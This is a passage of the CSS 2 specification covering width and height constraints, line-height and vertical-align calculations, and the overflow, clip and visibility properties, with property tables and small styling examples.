| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length or `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

These two properties allow authors to constrain content widths to a certain range. Values have the following meanings:

**`<length>`**

: Specifies a fixed minimum or maximum used width.

**`<percentage>`**

: Specifies a percentage for determining the used value. The percentage is calculated with respect to the width of the generated box’s [containing block](#css2:containing-block). If the containing block’s width is negative, the used value is zero. If the containing block’s width depends on this element’s width, then the resulting layout is undefined in CSS 2.

****none****

: (Only on `max-width`) No limit on the width of the box.

Negative values for `min-width` and `max-width` are illegal.

In CSS 2, the effect of `min-width` and `max-width` on tables, inline tables, table cells, table columns, and column groups is undefined.

The following algorithm describes how the two properties influence the used value of the `width` property:

1. The tentative used width is calculated (without `min-width` and `max-width`) following the rules under ["Calculating widths and margins"](#css2:Computing_widths_and_margins) above.
2. If the tentative used width is greater than `max-width`, the rules [above](#css2:Computing_widths_and_margins) are applied again, but this time using the computed value of `max-width` as the computed value for `width`.
3. If the resulting width is smaller than `min-width`, the rules [above](#css2:Computing_widths_and_margins) are applied again, but this time using the value of `min-width` as the computed value for `width`.

> **Note:** These steps do not affect the real computed values of the above properties.

However, for replaced elements with an intrinsic ratio and both `width` and `height` specified as `auto`, the algorithm is as follows:

Select from the table the resolved height and width values for the appropriate constraint violation. Take the *max-width* and *max-height* as max(min, max) so that *min* ≤ *max* holds true. In this table *w* and *h* stand for the results of the width and height computations ignoring the `min-width`, `min-height`, `max-width` and `max-height` properties. Normally these are the intrinsic width and height, but they may not be in the case of replaced elements with intrinsic ratios.

> **Note:** In cases where an explicit width or height is set and the other dimension is auto, applying a minimum or maximum constraint on the auto side can cause an over-constrained situation. The spec is clear in the behavior but it might not be what the author expects. The CSS3 object-fit property can be used to obtain different results in this situation.

| Constraint Violation | Resolved Width | Resolved Height |
| --- | --- | --- |
| none | *w* | *h* |
| *w > max-width* | *max-width* | *max(max-width * h/w, min-height)* |
| *w < min-width* | *min-width* | *min(min-width * h/w, max-height)* |
| *h > max-height* | *max(max-height * w/h, min-width)* | *max-height* |
| *h < min-height* | *min(min-height * w/h, max-width)* | *min-height* |
| (*w > max-width*) and (*h > max-height*), where (*max-width/w ≤ max-height/h*) | *max-width* | *max(min-height, max-width * h/w)* |
| (*w > max-width*) and (*h > max-height*), where (*max-width/w > max-height/h*) | *max(min-width, max-height * w/h)* | *max-height* |
| (*w < min-width*) and (*h < min-height*), where (*min-width/w ≤ min-height/h*) | *min(max-width, min-height * w/h)* | *min-height* |
| (*w < min-width*) and (*h < min-height*), where (*min-width/w > min-height/h*) | *min-width* | *min(max-height, min-width * h/w)* |
| (*w < min-width*) and (*h > max-height*) | *min-width* | *max-height* |
| (*w > max-width*) and (*h < min-height*) | *max-width* | *min-height* |

Then apply the rules under ["Calculating widths and margins"](#css2:Computing_widths_and_margins) above, as if `width` were computed as this value.

#### 10.5. Content height: the `height` property {#css2:the-height-property}

| Field | Value |
| --- | --- |
| Name: | **height** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table columns, and column groups |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see prose |
| [Computed value:](#css-cascade-6:computed) | the percentage or `auto` (see prose under `<percentage>`) or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies the content height of boxes.

This property does not apply to non-replaced [inline](#css2:inline-boxes) elements. See the [section on computing heights and margins for non-replaced inline elements](#css2:inline-non-replaced) for the rules used instead.

Values have the following meanings:

**`<length>`**

: Specifies the height of the content area using a length value.

**`<percentage>`**

: Specifies a percentage height. The percentage is calculated with respect to the height of the generated box’s [containing block](#css2:containing-block). If the height of the containing block is not specified explicitly (i.e., it depends on content height), and this element is not absolutely positioned, the value computes to `auto`. A percentage height on the root element is relative to the [initial containing block](#css2:containing-block-details).  Note: For absolutely positioned elements whose containing block is based on a block-level element, the percentage is calculated with respect to the height of the *padding box* of that element. This is a change from CSS1, where the percentage was always calculated with respect to the *content box* of the parent element.

****auto****

: The height depends on the values of other properties. See the prose below.

> **Note:** that the height of the containing block of an absolutely positioned element is independent of the size of the element itself, and thus a percentage height on such an element can always be resolved. However, it may be that the height is not known until elements that come later in the document have been processed.

Negative values for `height` are illegal.

> **Example:** For example, the following rule sets the content height of paragraphs to 100 pixels:
>
> ```css
> p { height: 100px }
> ```
>
> Paragraphs of which the height of the contents exceeds 100 pixels will overflow according to the `overflow` property.

#### 10.6. Calculating heights and margins {#css2:Computing_heights_and_margins}

For calculating the values of `top`, `margin-top`, `height`, `margin-bottom`, and `bottom` a distinction must be made between various kinds of boxes:

1. inline, non-replaced elements
2. inline, replaced elements
3. block-level, non-replaced elements in normal flow
4. block-level, replaced elements in normal flow
5. floating, non-replaced elements
6. floating, replaced elements
7. absolutely positioned, non-replaced elements
8. absolutely positioned, replaced elements
9. `inline-block`, non-replaced elements in normal flow
10. `inline-block`, replaced elements in normal flow

For Points 1-6 and 9-10, the used values of `top` and `bottom` are determined by the rules in section 9.4.3.

> **Note:** these rules apply to the root element just as to any other element.

> **Note:** ***Note.** The used value of `height` calculated below is a tentative value, and may have to be calculated multiple times, depending on `min-height` and `max-height`, see the section [Minimum and maximum heights](#css2:min-max-heights) below.*

##### 10.6.1. Inline, non-replaced elements {#css2:inline-non-replaced}

The `height` property does not apply. The height of the content area should be based on the font, but this specification does not specify how. A UA may, e.g., use the em-box or the maximum ascender and descender of the font. (The latter would ensure that glyphs with parts above or below the em-box still fall within the content area, but leads to differently sized boxes for different fonts; the former would ensure authors can control background styling relative to the `line-height`, but leads to glyphs painting outside their content area.)

> **Note:** level 3 of CSS will probably include a property to select which measure of the font is used for the content height.

The vertical padding, border and margin of an inline, non-replaced box start at the top and bottom of the content area, and has nothing to do with the `line-height`. But only the `line-height` is used when calculating the height of the line box.

If more than one font is used (this could happen when glyphs are found in different fonts), the height of the content area is not defined by this specification. However, we suggest that the height is chosen such that the content area is just high enough for either (1) the em-boxes, or (2) the maximum ascenders and descenders, of *all* the fonts in the element. Note that this may be larger than any of the font sizes involved, depending on the baseline alignment of the fonts.

##### 10.6.2. Inline replaced elements, block-level replaced elements in normal flow, `inline-block` replaced elements in normal flow and floating replaced elements {#css2:inline-replaced-height}

If `margin-top`, or `margin-bottom` are `auto`, their used value is 0.

If `height` and `width` both have computed values of `auto` and the element also has an intrinsic height, then that intrinsic height is the used value of `height`.

Otherwise, if `height` has a computed value of `auto`, and the element has an intrinsic ratio then the used value of `height` is:

> (used width) / (intrinsic ratio)

Otherwise, if `height` has a computed value of `auto`, and the element has an intrinsic height, then that intrinsic height is the used value of `height`.

Otherwise, if `height` has a computed value of `auto`, but none of the conditions above are met, then the used value of `height` must be set to the height of the largest rectangle that has a 2:1 ratio, has a height not greater than 150px, and has a width not greater than the device width.

##### 10.6.3. Block-level non-replaced elements in normal flow when `overflow` computes to `visible` {#css2:normal-block}

This section also applies to block-level non-replaced elements in normal flow when `overflow` does not compute to `visible` but has been propagated to the viewport.

If `margin-top`, or `margin-bottom` are `auto`, their used value is 0. If `height` is `auto`, the height depends on whether the element has any block-level children and whether it has padding or borders:

The element’s height is the distance from its top content edge to the first applicable of the following:

1. the bottom edge of the last line box, if the box establishes a inline formatting context with one or more lines
2. the bottom edge of the bottom (possibly collapsed) margin of its last in-flow child, if the child’s bottom margin does not collapse with the element’s bottom margin
3. the bottom border edge of the last in-flow child whose top margin doesn’t collapse with the element’s bottom margin
4. zero, otherwise

Only children in the normal flow are taken into account (i.e., floating boxes and absolutely positioned boxes are ignored, and relatively positioned boxes are considered without their offset). Note that the child box may be an [anonymous block box.](#css2:anonymous-block-level)

##### 10.6.4. Absolutely positioned, non-replaced elements {#css2:abs-non-replaced-height}

For the purposes of this section and the next, the term "static position" (of an element) refers, roughly, to the position an element would have had in the normal flow. More precisely, the static position for `top` is the distance from the top edge of the containing block to the top margin edge of a hypothetical box that would have been the first box of the element if its specified `position` value had been `static` and its specified `float` had been `none` and its specified `clear` had been `none`. (Note that due to the rules in [section 9.7](#css2:dis-pos-flo) this might require also assuming a different computed value for `display`.) The value is negative if the hypothetical box is above the containing block.

But rather than actually calculating the dimensions of that hypothetical box, user agents are free to make a guess at its probable position.

For the purposes of calculating the static position, the containing block of fixed positioned elements is the initial containing block instead of the viewport.

For absolutely positioned elements, the used values of the vertical dimensions must satisfy this constraint:

> `top` + `margin-top` + `border-top-width` + `padding-top` + `height` + `padding-bottom` + `border-bottom-width` + `margin-bottom` + `bottom` = height of containing block

If all three of `top`, `height`, and `bottom` are auto, set `top` to the static position and apply rule number three below.

If none of the three are `auto`: If both `margin-top` and `margin-bottom` are `auto`, solve the equation under the extra constraint that the two margins get equal values. If one of `margin-top` or `margin-bottom` is `auto`, solve the equation for that value. If the values are over-constrained, ignore the value for `bottom` and solve for that value.

Otherwise, pick the one of the following six rules that applies.

1. `top` and `height` are `auto` and `bottom` is not `auto`, then the height is [based on the content per 10.6.7](#css2:root-height), set `auto` values for `margin-top` and `margin-bottom` to 0, and solve for `top`
2. `top` and `bottom` are `auto` and `height` is not `auto`, then set `top` to the static position, set `auto` values for `margin-top` and `margin-bottom` to 0, and solve for `bottom`
3. `height` and `bottom` are `auto` and `top` is not `auto`, then the height is [based on the content per 10.6.7](#css2:root-height), set `auto` values for `margin-top` and `margin-bottom` to 0, and solve for `bottom`
4. `top` is `auto`, `height` and `bottom` are not `auto`, then set `auto` values for `margin-top` and `margin-bottom` to 0, and solve for `top`
5. `height` is `auto`, `top` and `bottom` are not `auto`, then `auto` values for `margin-top` and `margin-bottom` are set to 0 and solve for `height`
6. `bottom` is `auto`, `top` and `height` are not `auto`, then set `auto` values for `margin-top` and `margin-bottom` to 0 and solve for `bottom`

##### 10.6.5. Absolutely positioned, replaced elements {#css2:abs-replaced-height}

This situation is similar to the previous one, except that the element has an intrinsic height. The sequence of substitutions is now:

1. The used value of `height` is determined as for [inline replaced elements](#css2:inline-replaced-height). If `margin-top` or `margin-bottom` is specified as `auto` its used value is determined by the rules below.
2. If both `top` and `bottom` have the value `auto`, replace `top` with the element’s [static position](#css2:static-position).
3. If `bottom` is `auto`, replace any `auto` on `margin-top` or `margin-bottom` with `0`.
4. If at this point both `margin-top` and `margin-bottom` are still `auto`, solve the equation under the extra constraint that the two margins must get equal values.
5. If at this point there is only one `auto` left, solve the equation for that value.
6. If at this point the values are over-constrained, ignore the value for `bottom` and solve for that value.

##### 10.6.6. Complicated cases {#css2:block-root-margin}

This section applies to:

- Block-level, non-replaced elements in normal flow when `overflow` does not compute to `visible` (except if the `overflow` property’s value has been propagated to the viewport).
- `inline-block`, non-replaced elements.
- Floating, non-replaced elements.

If `margin-top`, or `margin-bottom` are `auto`, their used value is 0. If `height` is `auto`, the [height depends on the element’s descendants per 10.6.7](#css2:root-height).

For `inline-block` elements, the margin box is used when calculating the height of the line box.

##### 10.6.7. `auto` heights for block formatting context roots {#css2:root-height}

In certain cases (see, e.g., sections [10.6.4](#css2:abs-non-replaced-height) and [10.6.6](#css2:block-root-margin) above), the height of an element that establishes a block formatting context is computed as follows:

If it only has inline-level children, the height is the distance between the top of the topmost line box and the bottom of the bottommost line box.

If it has block-level children, the height is the distance between the top margin-edge of the topmost block-level child box and the bottom margin-edge of the bottommost block-level child box.

Absolutely positioned children are ignored, and relatively positioned boxes are considered without their offset. Note that the child box may be an [anonymous block box.](#css2:anonymous-block-level)

In addition, if the element has any floating descendants whose bottom margin edge is below the element’s bottom content edge, then the height is increased to include those edges. Only floats that participate in this block formatting context are taken into account, e.g., floats inside absolutely positioned descendants or other floats are not.

#### 10.7. Minimum and maximum heights: `min-height` and `max-height` {#css2:min-max-heights}

It is sometimes useful to constrain the height of elements to a certain range. Two properties offer this functionality:

| Field | Value |
| --- | --- |
| Name: | **min-height** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table columns, and column groups |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see prose |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

| Field | Value |
| --- | --- |
| Name: | **max-height** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table columns, and column groups |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see prose |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length or `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

These two properties allow authors to constrain box heights to a certain range. Values have the following meanings:

**`<length>`**

: Specifies a fixed minimum or maximum computed height.

**`<percentage>`**

: Specifies a percentage for determining the used value. The percentage is calculated with respect to the height of the generated box’s [containing block](#css2:containing-block). If the height of the containing block is not specified explicitly (i.e., it depends on content height), and this element is not absolutely positioned, the percentage value is treated as `0` (for `min-height`) or `none` (for `max-height`).

****none****

: (Only on `max-height`) No limit on the height of the box.

Negative values for `min-height` and `max-height` are illegal.

In CSS 2, the effect of `min-height` and `max-height` on tables, inline tables, table cells, table rows, and row groups is undefined.

The following algorithm describes how the two properties influence the used value of the `height` property:

1. The tentative used height is calculated (without `min-height` and `max-height`) following the rules under ["Calculating heights and margins"](#css2:Computing_heights_and_margins) above.
2. If this tentative height is greater than `max-height`, the rules [above](#css2:Computing_heights_and_margins) are applied again, but this time using the value of `max-height` as the computed value for `height`.
3. If the resulting height is smaller than `min-height`, the rules [above](#css2:Computing_heights_and_margins) are applied again, but this time using the value of `min-height` as the computed value for `height`.

> **Note:** These steps do not affect the real computed values of the above properties. The change of used `height` has no effect on margin collapsing except as specifically required by rules for `min-height` or `max-height` in ["Collapsing margins" (8.3.1).](#css2:collapsing-margins)

However, for replaced elements with both `width` and `height` computed as `auto`, use the algorithm under [Minimum and maximum widths](#css2:min-max-widths) above to find the used width and height. Then apply the rules under ["Computing heights and margins"](#css2:Computing_heights_and_margins) above, using the resulting width and height as if they were the computed values.

#### 10.8. Line height calculations: the `line-height` and `vertical-align` properties {#css2:line-height}

As described in the section on [inline formatting contexts](#css2:inline-formatting), user agents flow inline-level boxes into a vertical stack of line boxes. The height of a line box is determined as follows:

1. The height of each inline-level box in the line box is calculated. For replaced elements, inline-block elements, and inline-table elements, this is the height of their margin box; for inline boxes, this is their `line-height`. (See ["Calculating heights and margins"](#css2:Computing_heights_and_margins) and the [height of inline boxes](#css2:inline-box-height) in ["Leading and half-leading"](#css2:leading).)
2. The inline-level boxes are aligned vertically according to their `vertical-align` property.

   In case they are aligned `top` or `bottom`, they must be aligned so as to minimize the line box height. If such boxes are tall enough, there are multiple solutions and CSS 2 does not define the position of the line box’s baseline (i.e., the position of the [strut, see below](#css2:strut)).
3. The line box height is the distance between the uppermost box top and the lowermost box bottom. (This includes the [strut,](#css2:strut) as explained under `line-height` below.)

Empty inline elements generate empty inline boxes, but these boxes still have margins, padding, borders and a line height, and thus influence these calculations just like elements with content.

##### 10.8.1. Leading and half-leading {#css2:leading}

CSS assumes that every font has font metrics that specify a characteristic height above the baseline and a depth below it. In this section we use *A* to mean that height (for a given font at a given size) and *D* the depth. We also define *AD* = *A* + *D*, the distance from the top to the bottom. (See the note below for [how to find *A* and *D* for TrueType and OpenType fonts.](#css2:sTypoAscender)) Note that these are metrics of the font as a whole and need not correspond to the ascender and descender of any individual glyph.

User agent must align the glyphs in a non-replaced inline box to each other by their relevant baselines. Then, for each glyph, determine the *A* and *D*. Note that glyphs in a single element may come from different fonts and thus need not all have the same *A* and *D*. If the inline box contains no glyphs at all, it is considered to contain a [strut](#css2:strut) (an invisible glyph of zero width) with the *A* and *D* of the element’s first available font.

Still for each glyph, determine the leading *L* to add, where *L* = `line-height` - *AD*. Half the leading is added above *A* and the other half below *D*, giving the glyph and its leading a total height above the baseline of *A'* = *A* + *L*/2 and a total depth of *D'* = *D* + *L*/2.

> **Note:** **Note.** *L* may be negative.

The height of the inline box encloses all glyphs and their half-leading on each side and is thus exactly `line-height`. Boxes of child elements do not influence this height.

Although margins, borders, and padding of non-replaced elements do not enter into the line box calculation, they are still rendered around inline boxes. This means that if the height specified by `line-height` is less than the content height of contained boxes, backgrounds and colors of padding and borders may "bleed" into adjoining line boxes. User agents should render the boxes in document order. This will cause the borders on subsequent lines to paint over the borders and text of previous lines.

> **Note:** ***Note.** CSS 2 does not define what the content area of an inline box is (see [10.6.1](#css2:inline-non-replaced) above) and thus different UAs may draw the backgrounds and borders in different places.*

> **Note:** ***Note.** It is recommended that implementations that use OpenType or TrueType fonts use the metrics "sTypoAscender" and "sTypoDescender" from the font’s OS/2 table for A and D (after scaling to the current element’s font size). In the absence of these metrics, the "Ascent" and "Descent" metrics from the HHEA table should be used.*

| Field | Value |
| --- | --- |
| Name: | **line-height** |
| [Value:](#css-values-4:value-defs) | normal \| `<number>` \| `<length>` \| `<percentage>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to the font size of the element itself |
| [Computed value:](#css-cascade-6:computed) | for `<length>` and `<percentage>` the absolute value; otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

On a [block container element](#css2:block-boxes) whose content is composed of inline-level elements, `line-height` specifies the *minimal* height of line boxes within the element. The minimum height consists of a minimum height above the baseline and a minimum depth below it, exactly as if each line box starts with a zero-width inline box with the element’s font and line height properties. We call that imaginary box a "strut." (The name is inspired by TeX.).

The height and depth of the font above and below the baseline are assumed to be metrics that are contained in the font. (For more details, see CSS level 3.)

On a non-replaced [inline](#css2:inline-boxes) element, `line-height` specifies the height that is used in the calculation of the line box height.

Values for this property have the following meanings:

****normal****

: Tells user agents to set the used value to a "reasonable" value based on the font of the element. The value has the same meaning as `<number>`. We recommend a used value for `normal` between 1.0 to 1.2. The computed value is `normal`.

**`<length>`**

: The specified length is used in the calculation of the line box height. Negative values are illegal.

**`<number>`**

: The used value of the property is this number multiplied by the element’s font size. Negative values are illegal. The computed value is the same as the specified value.

**`<percentage>`**

: The computed value of the property is this percentage multiplied by the element’s computed font size. Negative values are illegal.

> **Example:** The three rules in the example below have the same resultant line height:
>
> ```css
> div { line-height: 1.2; font-size: 10pt }     /* number */
> div { line-height: 1.2em; font-size: 10pt }   /* length */
> div { line-height: 120%; font-size: 10pt }    /* percentage */
> ```

When an element contains text that is rendered in more than one font, user agents may determine the `normal` `line-height` value according to the largest font size.

> **Note:** ***Note.** When there is only one value of `line-height` (other than `normal`) for all inline boxes in a block container box and they all use the same first available font (and there are no replaced elements, inline-block elements, etc.), the above will ensure that baselines of successive lines are exactly `line-height` apart. This is important when columns of text in different fonts have to be aligned, for example in a table.*

| Field | Value |
| --- | --- |
| Name: | **vertical-align** |
| [Value:](#css-values-4:value-defs) | baseline \| sub \| super \| top \| text-top \| middle \| bottom \| text-bottom \| `<percentage>` \| `<length>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | baseline |
| [Applies to:](#css-cascade-5:applies-to) | inline-level and `table-cell` elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the `line-height` of the element itself |
| [Computed value:](#css-cascade-6:computed) | for `<percentage>` and `<length>` the absolute length, otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property affects the vertical positioning inside a line box of the boxes generated by an inline-level element.

> **Note:** ***Note.** Values of this property have different meanings in the context of tables. Please consult the section on  [table height algorithms](#css2:height-layout) for details.*

The following values only have meaning with respect to a parent inline element, or to the [strut](#css2:strut) of a parent block container element.

In the following definitions, for inline non-replaced elements, the box used for alignment is the box whose height is the `line-height` (containing the box’s glyphs and the half-leading on each side, see [above](#css2:inline-box-height)). For all other elements, the box used for alignment is the margin box.

****baseline****

: Align the baseline of the box with the baseline of the parent box. If the box does not have a baseline, align the bottom margin edge with the parent’s baseline.

****middle****

: Align the vertical midpoint of the box with the baseline of the parent box plus half the x-height of the parent.

****sub****

: Lower the baseline of the box to the proper position for subscripts of the parent’s box. (This value has no effect on the font size of the element’s text.)

****super****

: Raise the baseline of the box to the proper position for superscripts of the parent’s box. (This value has no effect on the font size of the element’s text.)

****text-top****

: Align the top of the box with the top of the parent’s content area (see [10.6.1](#css2:inline-non-replaced)).

****text-bottom****

: Align the bottom of the box with the bottom of the parent’s content area (see [10.6.1](#css2:inline-non-replaced)).

****`<percentage>`****

: Raise (positive value) or lower (negative value) the box by this distance (a percentage of the `line-height` value). The value `0%` means the same as `baseline`.

****`<length>`****

: Raise (positive value) or lower (negative value) the box by this distance. The value `0cm` means the same as `baseline`.

The following values align the element relative to the line box. Since the element may have children aligned relative to it (which in turn may have descendants aligned relative to them), these values use the bounds of the aligned subtree. The **aligned subtree** of an inline element contains that element and the aligned subtrees of all children inline elements whose computed `vertical-align` value is not `top` or `bottom`. The top of the aligned subtree is the highest of the tops of the boxes in the subtree, and the bottom is analogous.

****top****

: Align the top of the aligned subtree with the top of the line box.

****bottom****

: Align the bottom of the aligned subtree with the bottom of the line box.

The baseline of an `inline-table` is the baseline of the first row of the table.

The baseline of an `inline-block` is the baseline of its last line box in the normal flow, unless it has either no in-flow line boxes or if its `overflow` property has a computed value other than `visible`, in which case the baseline is the bottom margin edge.

### 11. Visual effects {#css2:visufx}

#### 11.1. Overflow and clipping {#css2:overflow-clipping}

Generally, the content of a block box is confined to the content edges of the box. In certain cases, a box may **overflow**, meaning its content lies partly or entirely outside of the box, e.g.:

- A line cannot be broken, causing the line box to be wider than the block box.
- A block-level box is too wide for the containing block. This may happen when an element’s `width` property has a value that causes the generated block box to spill over sides of the containing block.
- An element’s height exceeds an explicit height assigned to the containing block (i.e., the containing block’s height is determined by the `height` property, not by content height).
- A descendant box is [positioned absolutely](#css2:absolute-positioning), partly outside the box. Such boxes are not always clipped by the overflow property on their ancestors; specifically, they are not clipped by the overflow of any ancestor between themselves and their containing block.
- A descendant box has [negative margins](#css2:margin-properties), causing it to be positioned partly outside the box.
- The `text-indent` property causes an inline box to hang off either the left or right edge of the block box.

Whenever overflow occurs, the `overflow` property specifies whether a box is clipped to its padding edge, and if so, whether a scrolling mechanism is provided to access any clipped out content.

##### 11.1.1. Overflow: the `overflow` property {#css2:overflow①}

| Field | Value |
| --- | --- |
| Name: | **overflow** |
| [Value:](#css-values-4:value-defs) | visible \| hidden \| scroll \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies whether content of a block container element is clipped when it overflows the element’s box. It affects the clipping of all of the element’s content except any descendant elements (and their respective content and descendants) whose containing block is the viewport or an ancestor of the element. Values have the following meanings:

****visible****

: This value indicates that content is not clipped, i.e., it may be rendered outside the block box.

****hidden****

: This value indicates that the content is clipped and that no scrolling user interface should be provided to view the content outside the clipping region.

****scroll****

: This value indicates that the content is clipped and that if the user agent uses a scrolling mechanism that is visible on the screen (such as a scroll bar or a panner), that mechanism should be displayed for a box whether or not any of its content is clipped. This avoids any problem with scrollbars appearing and disappearing in a dynamic environment. When this value is specified and the target medium is `print`, overflowing content may be printed.

****auto****

: The behavior of the `auto` value is user agent-dependent, but should cause a scrolling mechanism to be provided for overflowing boxes.

Even if `overflow` is set to `visible`, content may be clipped to a UA’s document window by the native operating environment.

UAs must apply the `overflow` property set on the root element to the viewport. When the root element is an HTML "HTML" element or an XHTML "html" element, and that element has an HTML "BODY" element or an XHTML "body" element as a child, user agents must instead apply the `overflow` property from the first such child element to the viewport, if the value on the root element is `visible`. The `visible` value when used for the viewport must be interpreted as `auto`. The element from which the value is propagated must have a used value for `overflow` of `visible`.

In the case of a scrollbar being placed on an edge of the element’s box, it should be inserted between the inner border edge and the outer padding edge. Any space taken up by the scrollbars should be taken out of (subtracted from the dimensions of) the containing block formed by the element with the scrollbars.

> **Example:** Consider the following example of a block quotation (`<blockquote>`) that is too big for its containing block (established by a `<div>`). Here is the source:
>
> ```html
> <div>
> <blockquote>
> <p>I didn't like the play, but then I saw
> it under adverse conditions - the curtain was up.</p>
> <cite>- Groucho Marx</cite>
> </blockquote>
> </div>
> ```
>
> Here is the style sheet controlling the sizes and style of the generated boxes:
>
> ```css
> div { width : 100px; height: 100px;
>       border: thin solid red;
>       }
>
> blockquote   { width : 125px; height : 100px;
>       margin-top: 50px; margin-left: 50px;
>       border: thin dashed black
>       }
>
> cite { display: block;
>        text-align : right;
>        border: none
>        }
> ```
>
> The initial value of `overflow` is `visible`, so the `<blockquote>` would be formatted without clipping, something like this:
>
> 
>
> Setting `overflow` to `hidden` for the `<div>`, on the other hand, causes the `<blockquote>` to be clipped by the containing `<div>`:
>
> 
>
> A value of `scroll` would tell UAs that support a visible scrolling mechanism to display one so that users could access the clipped content.

Finally, consider this case where an absolutely positioned element is mixed with an overflow parent.

Style sheet:

```html
container { position: relative; border: solid; }
scroller { overflow: scroll; height: 5em; margin: 5em; }
satellite { position: absolute; top: 0; }
body { height: 10em; }
```

Document fragment:

```xml
<container>
 <scroller>
  <satellite/>
  <body/>
 </scroller>
</container>
```

In this example, the "scroller" element will not scroll the "satellite" element, because the latter’s containing block is outside the element whose overflow is being clipped and scrolled.

##### 11.1.2. Clipping: the `clip` property {#css2:clipping}

A **clipping region** defines what portion of an element’s border box is visible. By default, the element is not clipped. However, the clipping region may be explicitly set with the `clip` property.

| Field | Value |
| --- | --- |
| Name: | **clip** |
| [Value:](#css-values-4:value-defs) | `<shape>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | `auto` if specified as `auto`, otherwise a rectangle with four values, each of which is `auto` if specified as `auto` and the computed length otherwise |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

The `clip` property applies only to absolutely positioned elements. Values have the following meanings:

****auto****

: The element does not clip.

****<shape>****

: In CSS 2, the only valid <shape> value is: rect(<top>, <right>, <bottom>, <left>)

  where <top> and <bottom> specify offsets from the top border edge of the box, and <right>, and <left> specify offsets from the left border edge of the box. Authors should separate offset values with commas. User agents must support separation with commas, but may also support separation without commas (but not a combination), because a previous revision of this specification was ambiguous in this respect.

  **<top>**, **<right>**, **<bottom>**, and **<left>** may either have a `<length>` value or **auto**. Negative lengths are permitted. The value `auto` means that a given edge of the clipping region will be the same as the edge of the element’s generated border box (i.e., `auto` means the same as `0` for <top> and <left>, the same as the used value of the height plus the sum of vertical padding and border widths for <bottom>, and the same as the used value of the width plus the sum of the horizontal padding and border widths for <right>, such that four `auto` values result in the clipping region being the same as the element’s border box).

  When coordinates are rounded to pixel coordinates, care should be taken that no pixels remain visible when <left> and <right> have the same value (or <top> and <bottom> have the same value), and conversely that no pixels within the element’s border box remain hidden when these values are `auto`.

An element’s clipping region clips out any aspect of the element (e.g., content, children, background, borders, text decoration, outline and visible scrolling mechanism — if any) that is outside the clipping region. Content that has been clipped does not cause overflow.

The element’s ancestors may also clip portions of their content (e.g., via their own `clip` property and/or if their `overflow` property is not `visible`); what is rendered is the cumulative intersection.

If the clipping region exceeds the bounds of the UA’s document window, content may be clipped to that window by the native operating environment.

> **Example:** The following two rules:
>
> ```css
> p#one { clip: rect(5px, 40px, 45px, 5px); }
> p#two { clip: rect(5px, 55px, 45px, 5px); }
> ```
>
> and assuming both Ps are 50 by 55 px, will create, respectively, the rectangular clipping regions delimited by the dashed lines in the following illustrations:
>
> 

> **Note:** ***Note.** In CSS 2, all clipping regions are rectangular. We anticipate future extensions to permit non-rectangular clipping. Future updates may also reintroduce a syntax for offsetting shapes from each edge instead of offsetting from a point.*

#### 11.2. Visibility: the `visibility` property {#css2:visibility}

| Field | Value |
| --- | --- |
| Name: | **visibility** |
| [Value:](#css-values-4:value-defs) | visible \| hidden \| collapse \| inherit |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

